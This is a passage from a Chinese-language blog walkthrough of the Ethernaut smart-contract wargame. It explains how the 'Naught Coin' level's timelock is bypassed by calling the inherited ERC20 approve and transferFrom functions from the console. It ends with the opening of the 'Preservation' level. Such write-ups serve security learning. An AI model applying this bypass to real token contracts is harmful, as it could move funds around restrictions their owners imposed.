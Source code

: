仔细一看，原始的`ERC20`中还存在`transferFrom`函数。
```
    /**
     * @dev See {IERC20-transferFrom}.
     *
     * Emits an {Approval} event indicating the updated allowance. This is not
     * required by the EIP. See the note at the beginning of {ERC20}.
     *
     * NOTE: Does not update the allowance if the current allowance
     * is the maximum `uint256`.
     *
     * Requirements:
     *
     * - `from` and `to` cannot be the zero address.
     * - `from` must have a balance of at least `amount`.
     * - the caller must have allowance for ``from``'s tokens of at least
     * `amount`.
     */
    function transferFrom(
        address from,
        address to,
        uint256 amount
    ) public virtual override returns (bool) {
        address spender = _msgSender();
        _spendAllowance(from, spender, amount);
        _transfer(from, to, amount);
        return true;
    }
```
当然，这前提是有足够的allowance。我们可以开始试试了。

## 合约交互
首先通过`await contract.approve(player,await contract.balanceOf(player))`，使得自身可以通过`transferFrom`函数进行转账。
![await contract.approve(player,await contract.balanceOf(player))](https://img-blog.csdnimg.cn/96c676e69b254281ab1599e19f73962f.png#pic_center)
随后我们通过`await contract.transferFrom(player,contract.address,await contract.balanceOf(player))`将余额转移到合约。
![await contract.transferFrom(player,contract.address,await contract.balanceOf(player))](https://img-blog.csdnimg.cn/a6e260e856814ebb9fda2c4c32d5e250.png#pic_center)
此时再通过`await contract.balanceOf(player)`查看余额，可知攻击成功，余额为0。
![await contract.balanceOf(player)](https://img-blog.csdnimg.cn/7792af7bd4c246cfaef6c4a02d99e337.png#pic_center)
提交实例，本关卡成功！
![在这里插入图片描述](https://img-blog.csdnimg.cn/3f50bcd3405a49c383ebdc101ac11d07.png#pic_center)
## 总结
继承部分函数不影响其他的使用，这可以说的上是表面合约了。
<hr>

# 16 Preservation
我又回来了，给外方的培训算是快要告一段落，在这段过程中，我认为我也有许多收获。在培训、讲解的过程中，我的思路也变得更为清晰了。可喜可贺。理论上来说，我初步计划的是在8月完成Ethernaut的攻防，然后开启下一阶段的分享。
